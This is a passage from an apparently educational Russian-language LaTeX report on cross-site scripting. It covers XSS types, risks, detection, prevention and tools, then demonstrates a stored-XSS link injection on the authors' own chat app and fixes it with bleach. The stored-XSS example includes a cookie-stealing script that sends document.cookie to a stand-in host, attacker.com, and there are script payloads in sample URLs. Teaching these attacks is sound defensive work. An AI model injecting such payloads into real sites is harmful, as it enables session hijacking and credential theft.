	 \textbf{Отраженные (Reflected) XSS}: В этом типе атаки вредоносный код не сохраняется на сервере, а отражается от него в ответ на запрос пользователя, содержащий вредоносный скрипт.  Например,  злоумышленник может отправить жертве ссылку,  которая содержит вредоносный скрипт в параметрах URL.  Когда жертва переходит по ссылке,  скрипт выполняется в ее браузере. 
	 
	 \begin{itemize}
	 	\item \textbf{Пример}:  Злоумышленник отправляет жертве ссылку вида: \\ \textit{https://example.com/search?q=<script>alert('XSS!')</script>}. \\
	 	Если сайт уязвим к отраженным XSS, то при переходе по ссылке жертва увидит всплывающее окно с сообщением "XSS!".
	 \end{itemize}
	 
	 
	 \textbf{Хранимые (Stored) XSS}:  В этом типе атаки вредоносный код сохраняется на сервере,  например,  в базе данных или файловой системе.  Код выполняется в браузере каждого пользователя,  который посещает уязвимую страницу.  Например,  злоумышленник может оставить комментарий на форуме,  который содержит вредоносный скрипт.  Этот скрипт будет выполнен в браузере каждого пользователя,  который просматривает комментарии. 
	 
	 \begin{itemize}
	 	\item \textbf{Пример}:  Злоумышленник оставляет комментарий на форуме с кодом: \\ \textit{<script>new Image().src="http://attacker.com/?cookie="+document.cookie;</script>}. \\
	 	Этот скрипт отправляет cookie пользователя на сервер злоумышленника. 
	 \end{itemize}
	 
	 \textbf{DOM-based XSS}:  В этом типе атаки вредоносный код внедряется в Document Object Model (DOM) страницы на стороне клиента,  без участия сервера.  Это может произойти,  например,  при использовании JavaScript для динамического изменения содержимого страницы.  Например,  злоумышленник может внедрить код в URL-адрес,  который затем используется для обновления содержимого страницы. 
	 
	 \begin{itemize}
	 	\item \textbf{Пример}:  Сайт использует JavaScript для отображения имени пользователя в приветствии,  взятого из параметра URL: \\ \textit{https://example.com/welcome?name=John}.\\ Злоумышленник может изменить URL на\\ 
	 	\textit{https://example.com/welcome?name=<script>alert('XSS!')</script>} \\
	 	 и при переходе по ссылке код выполнится в браузере жертвы. 
	 \end{itemize}
	 
	 \subsection{Классификация по контексту выполнения}
	 
	 \begin{itemize}
	 	\item \textbf{XSS в HTML-контексте}:  Вредоносный код внедряется непосредственно в HTML-код страницы.  Например,  злоумышленник может внедрить тег `<script>` с вредоносным кодом. 
	 	\item \textbf{XSS в JavaScript-контексте}:  Вредоносный код внедряется в JavaScript-код страницы.  Например,  злоумышленник может внедрить код в значение переменной или функции. 
	 	\item \textbf{XSS в атрибутах HTML-тегов}:  Вредоносный код внедряется в значения атрибутов HTML-тегов.  Например,  злоумышленник может внедрить код в атрибут "onclick"  тега `<a>`. 
	\end{itemize}
	
	 \textbf{Каждый тип XSS-атаки имеет свои особенности и требует соответствующих мер защиты.  Понимание различных типов XSS-атак и их примеров помогает разработчикам и специалистам по безопасности лучше защитить веб-приложения от этих угроз.}
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Риски и угрозы, связанные с XSS для веб-приложений}
	 
	 Межсайтовый скриптинг (XSS) представляет собой серьезную уязвимость, способную привести к многочисленным рискам и угрозам для веб-приложений и их пользователей. XSS-атаки эксплуатируют недостаточную фильтрацию входных данных, позволяя злоумышленникам внедрять вредоносный код на веб-страницы, который затем выполняется в браузерах пользователей. 
	 
	 \subsection{Кража конфиденциальной информации}
	 
	 Одной из основных угроз, связанных с XSS, является кража конфиденциальной информации. Злоумышленники могут использовать вредоносный код для:
	 
	 \begin{itemize}
	 	\item \textbf{Кражи файлов cookie:} Файлы cookie часто содержат идентификаторы сессий и другие данные аутентификации. Злоумышленник, получив доступ к файлам cookie, может имитировать пользователя и получить несанкционированный доступ к его аккаунту, что может привести к краже личных данных, финансовой информации и других конфиденциальных сведений.
	 	\item \textbf{Кражи данных форм:}  XSS-атаки позволяют злоумышленникам перехватывать данные, вводимые пользователем в формы, такие как логины, пароли, номера кредитных карт и т.д. 
	 	\item \textbf{Keylogging:} Внедрение кейлоггера на веб-страницу позволяет злоумышленнику записывать все нажатия клавиш пользователя, включая пароли и другую конфиденциальную информацию.
	 \end{itemize}
	 
	 \subsection{Дефейс веб-сайта}
	 
	 XSS-атаки могут использоваться для изменения контента веб-страницы, что наносит ущерб репутации веб-сайта и подрывает доверие пользователей. Злоумышленники могут использовать XSS для:
	 
	 \begin{itemize}
	 	\item \textbf{Отображения ложных сообщений:}  Внедрение кода, отображающего ложные сообщения, например, о взломе сайта или выигрыше приза, может привести к панике, недоверию и потере клиентов.
	 	\item \textbf{Подмены информации:}  Изменение содержимого веб-страницы, например, подмена цен товаров, условий обслуживания или контактной информации, может привести к финансовым потерям, юридическим проблемам и ущербу репутации.
	 	\item \textbf{Внедрения рекламы или пропаганды:} XSS позволяет внедрять нежелательную рекламу или пропаганду на веб-страницу, что раздражает пользователей и наносит ущерб репутации сайта.
	\end{itemize}
	 	
	 \subsection{Распространение вредоносного ПО}
	 	
	 XSS-атаки могут использоваться для распространения вредоносного ПО, такого как вирусы, трояны и черви. Злоумышленник может внедрить код, который:
	 	
	 \begin{itemize}
	 	\item \textbf{Перенаправляет пользователя на вредоносный сайт:} Внедрение кода, перенаправляющего пользователя на вредоносный сайт, содержащий вредоносное ПО или фишинговые формы, может привести к заражению компьютера пользователя вредоносным ПО или краже его учетных данных. 
	 	\item \textbf{Автоматически загружает вредоносное ПО:}  Внедрение кода, автоматически загружающего вредоносное ПО на компьютер пользователя без его ведома или согласия, может привести к заражению компьютера пользователя вредоносным ПО, которое может украсть его данные, повредить его файлы или использовать его компьютер для атак на другие компьютеры. 
	 \end{itemize}
	 		
	 \subsection{Фишинг}
	 		
	 XSS-уязвимости могут использоваться для создания фишинговых страниц, имитирующих внешний вид законных сайтов. Злоумышленник может использовать код для создания формы входа, которая отправляет данные пользователя на его сервер, а не на сервер законного сайта. Это позволяет злоумышленнику получить доступ к учетным данным пользователя, которые затем могут быть использованы для получения несанкционированного доступа к его учетной записи.
	 		
	 \subsection{DDoS-атаки}
	 		
	 XSS-атаки могут быть использованы для проведения DDoS-атак (Distributed Denial of Service) на веб-сервер. Злоумышленник может внедрить код, который заставляет браузеры пользователей отправлять большое количество запросов на сервер, что может привести к его перегрузке и отказу в обслуживании. Это может сделать веб-сайт недоступным для законных пользователей.
	 		
	 \subsection{Потеря доверия пользователей} 
	 		
	 XSS-уязвимости могут подорвать доверие пользователей к веб-сайту. Если пользователь стал жертвой XSS-атаки, он может потерять доверие к сайту и перестать им пользоваться. Это может привести к потере клиентов и доходов для владельцев сайта. 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Методы обнаружения и предотвращения межсайтового скриптинга}
	 
	 Учитывая серьезные риски, связанные с XSS-уязвимостями, важно применять эффективные методы обнаружения и предотвращения этих атак. Существуют различные подходы, которые могут быть использованы для обеспечения безопасности веб-приложений от XSS.
	 
	 \subsection{Обнаружение XSS-уязвимостей}
	 
	 Обнаружение XSS-уязвимостей является важным этапом в обеспечении безопасности веб-приложений. Для этого используются различные методы, включая:
	 
	 \begin{itemize}
	 	\item \textbf{Ручное тестирование:}  Этот метод включает в себя анализ исходного кода приложения и поиск потенциальных уязвимостей, таких как недостаточная фильтрация входных данных.  Тестировщики могут использовать различные инструменты и техники, такие как анализ исходного кода,  использование прокси-серверов и fuzzing,  чтобы обнаружить уязвимости. 
	 	\item \textbf{Автоматизированное сканирование:}  Существуют различные инструменты автоматизированного сканирования уязвимостей,  которые могут быть использованы для обнаружения XSS-уязвимостей.  Эти инструменты могут сканировать веб-приложения на наличие известных паттернов XSS-атак и предоставлять отчеты о найденных уязвимостях. 
	 	\item \textbf{Bug bounty программы:}  Bug bounty программы предлагают вознаграждение исследователям безопасности,  которые обнаруживают уязвимости в веб-приложениях.  Это может быть эффективным способом обнаружения XSS-уязвимостей,  так как исследователи безопасности имеют большой опыт и знания в этой области. 
	 \end{itemize}
	 
	 \subsection{Предотвращение XSS-атак}
	 
	 Предотвращение XSS-атак является ключевым аспектом обеспечения безопасности веб-приложений. Для этого используются различные методы, включая:
	 
	 \begin{itemize}
	 	\item \textbf{Валидация входных данных:}  Валидация входных данных является одним из наиболее важных методов предотвращения XSS-атак.  Это означает проверку всех данных,  вводимых пользователем,  на соответствие ожидаемому формату и типу данных.  Например,  если поле формы ожидает числовое значение,  необходимо убедиться,  что пользователь ввел именно число,  а не строку или код. 
	 	\item \textbf{Кодирование выходных данных:}  Кодирование выходных данных означает преобразование специальных символов в их HTML-эквиваленты.  Это предотвращает интерпретацию браузером этих символов как кода,  что может привести к выполнению вредоносного кода.  Например,  символ '<' должен быть преобразован в '\&lt;'. 
	 	\item \textbf{Использование HTTP-заголовков безопасности:}  Существуют различные HTTP-заголовки безопасности,  которые могут быть использованы для предотвращения XSS-атак.  Например,  заголовок Content-Security-Policy (CSP) позволяет указать,  какие источники контента разрешены для загрузки на веб-странице.  Это может помочь предотвратить загрузку вредоносного кода с ненадежных источников. 
	 	\item \textbf{Использование фреймворков и библиотек с защитой от XSS:}  Многие современные фреймворки и библиотеки веб-разработки имеют встроенные механизмы защиты от XSS.  Использование таких фреймворков и библиотек может значительно упростить процесс предотвращения XSS-атак. 
	 \end{itemize}
	 
	 \subsection{Дополнительные меры безопасности}
	 
	 Помимо основных методов предотвращения XSS-атак, существуют и другие меры безопасности, которые могут быть приняты для повышения безопасности веб-приложений:
	 
	 \begin{itemize}
	 	\item \textbf{Обучение пользователей:}  Пользователи должны быть осведомлены о рисках,  связанных с XSS-атаками,  и о том,  как их избежать.  Например,  пользователям следует быть осторожными при нажатии на ссылки в электронных письмах или на веб-сайтах,  а также при вводе данных в формы. 
	 	\item \textbf{Использование веб-application firewall (WAF):}  WAF - это инструмент безопасности,  который может быть использован для обнаружения и блокировки вредоносного трафика.  WAF может быть настроен на обнаружение известных паттернов XSS-атак и блокирование соответствующего трафика. 
	 	\item \textbf{Регулярное обновление программного обеспечения:}  Разработчики должны регулярно обновлять программное обеспечение веб-приложений,  чтобы устранять известные уязвимости,  включая XSS-уязвимости. 
	 \end{itemize}
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Практические примеры и инструменты для защиты от XSS-атак}
	 
	 Защита от XSS-атак требует комплексного подхода, включающего в себя использование различных инструментов и методов. В этом разделе мы рассмотрим практические примеры и инструменты, которые могут быть использованы для повышения безопасности веб-приложений от XSS.
	 
	 \subsection{Примеры кодирования выходных данных}
	 
	 Кодирование выходных данных является одним из основных методов предотвращения XSS-атак. Существуют несколько способов кодирования выходных данных, в зависимости от контекста, в котором они отображаются:
	 
	 \begin{itemize}
	 	\item \textbf{HTML-кодирование:} Этот метод используется для кодирования данных, которые будут отображаться в HTML-контексте. Например, символ '<' должен быть преобразован в '\&lt;'.
	 	\item \textbf{URL-кодирование:} Этот метод используется для кодирования данных, которые будут использоваться в URL-адресах. Например, пробел должен быть преобразован в '\%20'.
	 	\item \textbf{JavaScript-кодирование:} Этот метод используется для кодирования данных, которые будут использоваться в JavaScript-коде. Например, символ '' ' '' должен быть преобразован в '' \textbackslash' ''.
	 \end{itemize}
	 
	 \subsection{Использование библиотек и фреймворков с защитой от XSS}
	 
	 Многие современные фреймворки и библиотеки веб-разработки имеют встроенные механизмы защиты от XSS. Некоторые из популярных фреймворков и библиотек с защитой от XSS включают:
	 
	 \begin{itemize}
	 	\item \textbf{React:} React автоматически экранирует выходные данные, что помогает предотвратить XSS-атаки.
	 	\item \textbf{Angular:} Angular также имеет встроенные механизмы защиты от XSS, такие как автоматическое экранирование выходных данных и строгая проверка типов.
	 	\item \textbf{Django:} Django предоставляет различные инструменты для защиты от XSS, такие как шаблонизатор с автоматическим экранированием и функции для валидации входных данных.
	 \end{itemize}
	 
	 \subsection{Инструменты для тестирования на уязвимости XSS}
	 
	 Существует множество инструментов, которые могут быть использованы для тестирования веб-приложений на уязвимости XSS. Некоторые из популярных инструментов включают:
	 
	 \begin{itemize}
	 	\item \textbf{OWASP ZAP:} OWASP Zed Attack Proxy (ZAP) - это бесплатный инструмент с открытым исходным кодом для тестирования безопасности веб-приложений. ZAP может быть использован для обнаружения различных уязвимостей, включая XSS.\cite{ZAP_habr}\cite{ZAP_tool}
	 	\item \textbf{Burp Suite:} Burp Suite - это коммерческий инструмент для тестирования безопасности веб-приложений. Burp Suite предлагает широкий набор функций для тестирования безопасности, включая обнаружение XSS-уязвимостей.\cite{Burp_Suite_habr}\cite{Burp_Suite_tool}
	 	\item \textbf{XSS Hunter:} XSS Hunter - это онлайн-сервис, который позволяет создавать "ловушки" для XSS-атак. Эти ловушки могут быть размещены на веб-страницах, и если злоумышленник выполняет XSS-атаку, он будет перенаправлен на ловушку, что позволит вам обнаружить атаку.\cite{XSS_Hunter_tool}
	 \end{itemize}
	 
	 \subsection{Content Security Policy (CSP)}
	 
	 Content Security Policy (CSP) - это механизм безопасности, который позволяет указать, какие источники контента разрешены для загрузки на веб-странице. CSP может быть использован для предотвращения XSS-атак, ограничивая загрузку скриптов только с доверенных источников.
	 
	 \subsection{Входная фильтрация и валидация данных}
	 
	 Входная фильтрация и валидация данных являются одними из самых важных методов предотвращения XSS-атак. Валидация входных данных означает проверку всех данных, вводимых пользователем, на соответствие ожидаемому формату и типу данных. Фильтрация входных данных означает удаление или преобразование потенциально опасных символов из входных данных.
	 
	 \subsection{Выходная фильтрация и кодирование данных}
	 
	 Выходная фильтрация и кодирование данных означают преобразование специальных символов в их HTML-эквиваленты. Это предотвращает интерпретацию браузером этих символов как кода, что может привести к выполнению вредоносного кода. 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Изучение XSS-атаки на практическом примере}
	 
	 Для платформы атаки мы будем использовать все тот же сайт-чат. При детальном рассмотрении методов обработки отправки и получения сообщений чата, мы можем выявить уязвимость к xss-атаке, а именно отсутствие какой-либо обработки текста сообщений при записывании их в базу данных и при извлечении из неё:
	 
	 
	 \begin{lstlisting}[ language=python, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
@app.get("/get_messages", response_class=JSONResponse)
async def get_message():
	query = """
		select u.login, m.date_sent, m.text
		from messages m
		join users u on u.id = m.user_id
"""
	with sqlite3.connect(db_file) as conn:
		cursor = conn.cursor()
		cursor.execute(query)
		data = cursor.fetchall()
		messages = list(
			map(lambda m: create_message_data(
					m[0], 
					datetime.strptime(m[1], 
						"%Y-%m-%d %H:%M:%S.%f"), 
					m[2]), 
			data))
		return messages


@app.post("/send_message", response_class=JSONResponse)
async def send_message(message: Message):
	query = f"""
		insert into messages(user_id, date_sent, text)
		values (?, ?, ?)
"""
	with sqlite3.connect(db_file) as conn:
		conn.execute(query, 
		(message.user_id, message.date_sent, message.text)
		)
	 \end{lstlisting}
	 
	 Поэтому мы можем попробовать вставить какой-нибудь код на языке разметки html, пускай это будет сообщение с ссылкой на вредоносный сайт, но сама ссылка выглядит как картинка для усыпления бдительности жертвы. Получилось следующее:
	 ``Привет! Сможешь найти 10 отличий? <a href='https://attaker.com' target="\_blank">
	 <img src=
	 "https://avatars.dzeninfra.ru/get-zen\_doc/3310860/pub\_6027 \linebreak d6ec0454f6146a93ef08\_6027d774331cb763527c70c3/scale\_1200"
	 width="50" height="50">
	 </a>``
	 Специально указали маленькие размеры картинки, чтобы жертва попыталась кликнуть на картинку с целью её увеличения. Попробуем отправить сообщение:
	 
	 \begin{figure}[!ht]
	 	{\centering
	 	
\includegraphics[width=1\textwidth]{chat_xss_attack_success.png}
	 	\caption{Попытка отправить сообщение с html-тегами}
	 	\label{fig:chat_xss_attack_success}
	 }
	\end{figure}
	 Как видим, у нас получилось отправить сообщение и теперь при загрузке страницы действительно происходит внедрение текста сообщения напрямую в html документ страницы с соответствующим форматированием - кликабельная картинка, которая при клике открывает новую вкладку с вредоносным сайтом.
	 \begin{figure}
	 {\centering
	 	
\includegraphics[width=1\textwidth]{chat_xss_attack_success_send.png}
	 	\caption{Сообщение с html-разметкой в чате}
	 	\label{fig:chat_xss_attack_success_send}
	 }\par\bigskip
	 При нажатии на картинку ожидаемо произошло открытие новой вкладки с вредоносным сайтом\par\bigskip
	 {
	 	
	 	\centering
	 	
\includegraphics[width=1\textwidth]{chat_xss_attack_success_referenced.png}
	 	\caption{Открылся условно вредоносный сайт в новой вкладке}
	 	\label{fig:chat_xss_attack_success_referenced}
	 }
	 \end{figure}
	 
	 
	 \pagebreak
	 Перепишем код отправления сообщений пользователям так, чтобы все html теги экранировались и следовательно текст разпознавался как простая строка, для этого будем использовать библиотеку bleach:
	 
	 
	 \begin{lstlisting}[ language=python, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
@app.get("/get_messages", response_class=JSONResponse)
async def get_message():
	query = """
		select u.login, m.date_sent, m.text
		from messages m
		join users u on u.id = m.user_id
"""
	with sqlite3.connect(db_file) as conn:
		cursor = conn.cursor()
		cursor.execute(query)
		data = cursor.fetchall()
		messages = list(
		map(lambda m: create_message_data(m[0],
			datetime.strptime(m[1], "%Y-%m-%d %H:%M:%S.%f"),
			bleach.clean(m[2], tags=[])
			), data))
		return messages
	 \end{lstlisting}
	 
	 
	 Теперь сообщение выглядит как некликабельный текст, \textbf{таким образом нам удалось защититься от хранимой xss атаки.}
	 \begin{figure}[!ht]
	 	{\centering
